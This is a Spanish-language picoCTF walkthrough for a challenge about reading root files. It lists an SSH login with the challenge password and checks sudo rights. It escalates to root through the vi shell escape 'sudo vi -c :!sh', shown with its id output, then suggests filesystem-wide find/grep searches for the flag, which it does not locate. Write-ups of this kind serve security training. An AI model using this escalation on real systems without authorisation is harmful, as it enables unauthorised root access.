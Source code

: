 #### Description

Can you read files in the root file?

Additional details will be available after launching your challenge instance.
SOLUCION

1. **Conexión via SSH**
    

`ssh -p 49180 picoplayer@saturn.picoctf.net # contraseña: NBD+zO8s4y`

2. **Enumeración inicial (desde el home)**
    

`ls -la`

Salida mostrada: contenido normal del home (`.bashrc`, `.profile`, `.cache`, etc.).

3. **Comprobar permisos `sudo`**
    

`sudo -l`

Salida relevante:

`User picoplayer may run the following commands on challenge:     (ALL) /usr/bin/vi`

→ El usuario puede ejecutar `/usr/bin/vi` como root.

4. **Obtener shell root usando `vi`**
    

`sudo /usr/bin/vi -c ':!sh' # dentro del shell: id`

Salida confirmatoria:

`uid=0(root) gid=0(root) groups=0(root)`

→ Ahora tenemos shell con privilegios root.

5. **Intento de lectura del flag conocido**
    

`cat /root/flag.txt`

Salida:

`cat: /root/flag.txt: No such file or directory`

→ En este sistema el flag no está en `/root/flag.txt`.

6. **Siguiente paso (búsqueda del flag)**  
    Como root, buscar archivos que contengan la palabra `picoCTF` o que tengan “flag” en el nombre:
    

`find / -type f \( -iname "*flag*" -o -iname "*secret*" \) 2>/dev/null grep -RIl "picoCTF" / 2>/dev/null ls -la /root`

(usar estas búsquedas hasta localizar el archivo con el flag).

---

## Notas adicionales (breves)

- **Vector de escalada usado:** `sudo` permitido para `/usr/bin/vi`. `vi` permite ejecutar comandos de shell (`:!sh`), lo que da un shell con UID 0.
    
- **Precaución:** No modificar archivos del sistema ni dejar puertas abiertas; solo leer el flag.
    
- **Formato esperado del flag:** `picoCTF{...}`.
    
- **Si no aparece `/root/flag.txt`:** el flag puede estar en otra ruta (ej. `/root/flag`, `/home/*/flag.txt`, `/opt/*`, `/tmp/*`) o nombrado distinto; usar `find`/`grep` como root para localizarlo.
    
- **Evidencia para entrega:** incluir captura o salida de `id` mostrando `uid=0(root)` y la línea de `sudo -l` que muestra `/usr/bin/vi`. Eso demuestra la técnica usada.
Referencias
https://www.youtube.com/watch?v=ZCM8pLNE2TE